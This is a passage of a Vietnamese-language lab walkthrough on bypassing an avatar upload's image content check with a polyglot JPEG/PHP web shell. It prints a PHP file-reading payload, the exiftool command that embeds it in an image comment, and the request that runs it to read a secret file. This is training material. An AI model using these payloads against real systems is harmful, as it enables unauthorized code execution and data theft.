


# Lab: Remote code execution via polyglot web shell upload

> Phòng lab này chứa lỗ hổng file upload trong phần upload avatar. Mặc dù file tải lên sẽ được kiểm tra `content-type` để đảm bảo đúng là file hình ảnh nhưng vẫn sẽ có cách bypass việc kiểm tra này
> 
> Để giải quyết phòng lab, hãy tải lên một web shell PHP cơ bản và sử dụng nó để lấy nội dung của file mật `/home/carlos/secret`. Gửi nội dung lấy được bằng nút **Submit**
>
> Hãy đăng nhập vào account `wiener:peter` để upload avatar

Thử upload file `exploit.php` với nội dung `<?php echo file_get_contents('/home/carlos/secret') ?>` thì nhận được phản hồi ***Error: file is not a valid image Sorry, there was an error uploading your file.***

Trang web đã chặn việc tải lên file không phải hình ảnh mặc dù đã thử các cách bypass của những lab trước nhưng vẫn không thành công. Vì trang web kiểm tra nội dung file nên không thể bypass bằng các cách trên mà phải thay đổi nội dung file bằng exiftool để vượt qua lần kiểm tra của trang web.

Chọn 1 bức ảnh bất kỳ, ở đây mình chọn ảnh ava.jpg. Chạy command 

`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ava.jpg -o polyglot.php` 

Và nhận thấy có 1 file `polyglot.php` được tạo

>

Lúc này thì upload file polyglot này lên thì trang web báo up file thành công `The file avatars/polyglot.php has been uploaded.`

Bắt request bằng burp và chuyển sang tab repeater để mở file php vừa up.

`GET files/avatars/polyglot.php` 

>

